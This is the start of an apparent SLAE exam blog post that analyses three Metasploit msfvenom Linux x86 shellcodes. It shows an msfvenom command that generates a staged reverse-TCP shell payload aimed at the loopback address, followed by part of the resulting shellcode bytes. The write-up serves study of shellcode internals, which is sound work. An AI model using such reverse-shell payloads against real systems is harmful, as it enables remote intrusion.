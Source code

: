 ```yaml
---
layout: single
title: SLAE Assignment 5 - MsfVenom Shellcodes Analysis
date: 2020-5-09
classes: wide
header:
  teaser: /assets/images/slae/SHELLCODING32.png
tags:
    - Shellcoding
    - Linux
    - x86
    - SLAE
    - Metasploit
---
```


![](/assets/images/slae/SHELLCODING32.png)

## Introduction
This is the fifth post of the SLAE exam assignments serie.  

The goal of this assignement is to dissect and present an analysis of at least three msfvenom shellcodes. 

All the source code for this assignment can be found on my [github repository](https://github.com/skr0x/SLAE/tree/master/Assignment-05-MsfVenom_shellcodes_analysis)

## Staged payload analysis

In this assignment, I set the goal for myself to study how a staged payload is implemented and how to handle it manually.

So the payloads I've chosen are :

	- linux/x86/shell/reverse_tcp
	- linux/x86/shell_find_port
	- linux/x86/shell_find_tag

### linux/x86/shell/reverse_tcp

To begin, we need to generate the payload and we will set it to connect to the loopback address on port 1337 :
```plaintext
root@kali:~# msfvenom -p linux/x86/shell/reverse_tcp LHOST=127.0.0.1 LPORT=1337 -f c 
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 123 bytes
Final size of c file: 543 bytes
unsigned char buf[] = 
"\x6a\x0a\x5e\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\xb0\x66\x89"
"\xe1\xcd\x80\x97\x5b\x68\x7f\x00\x00\x01\x68\x02\x00\x05\x39"
"\x89\xe1\x6a\x66\x58\x50\x51\x57\x89\xe1\x43\xcd\x80\x85\xc0"
"\x79\x19\x4e\x74\x3d\x68\xa2\x00\x00\x00\x58\x6a\x00\x6a\x05"
"\x89\xe3\x31\xc9\xcd\x80\x85\xc0\x79\xbd\xeb\x27\xb2\x07\xb9"
```